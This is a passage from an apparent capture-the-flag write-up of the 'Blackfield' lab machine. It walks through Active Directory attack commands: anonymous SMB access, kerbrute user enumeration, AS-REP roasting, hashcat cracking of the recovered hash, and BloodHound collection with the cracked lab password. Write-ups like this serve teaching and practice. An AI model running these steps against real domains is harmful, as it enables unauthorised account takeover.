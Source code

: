 ```sh
smbclient -N '//blackfield.local/profiles$'
```

![]({{page.assets_path}}/002.png)

### **kerberos**

Feeding the list of users to `kerbrute` gave us three valid ones `audit2020`, `support` and `svc_backup`.

> `kerbrute` is a tool to quickly bruteforce and enumerate valid Active Directory accounts through `Kerberos Pre-Authentication` 
which is a security feature in the Kerberos authentication protocol that requires a user to provide their password or a secret key before receiving a ticket for accessing services.
{: .prompt-tip}

```sh
kerbrute userenum --dc dc1.blackfield.local -d blackfield.local users.txt
```

![]({{page.assets_path}}/003.png)

The user `support` had kerberos pre-authentication disabled which allowed us to perform an `AS-REP Raosting` attack to get a hash we could crack offline.

```sh
GetNPUsers.py blackfield.local/support
```

![]({{page.assets_path}}/004.png)

After cracking the retrieved hash, we found the password for the user `support`: `#00^BlackKnight`

```sh
hashcat -a 0 -m 18200 support.asrep /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

![]({{page.assets_path}}/005.png)

### **bloodhound**

We used bloodhound to enumerate the domain further.

First we used [bloodhound-python](https://github.com/dirkjanm/BloodHound.py) to gather the information from the domain.
This command generates a `zip` file that can be imported to `bloodhound` for analysis.

```sh
bloodhound-python -d blackfield.local -u support -p '#00^BlackKnight' -c All --zip -ns 10.10.10.192
```

> To setup Bloodhound refer to the documentation [Here](https://bloodhound.readthedocs.io/en/latest/installation/linux.html)
{: .prompt-info}

From the results we found that the user `support` can change the user `audit2020`'s password.
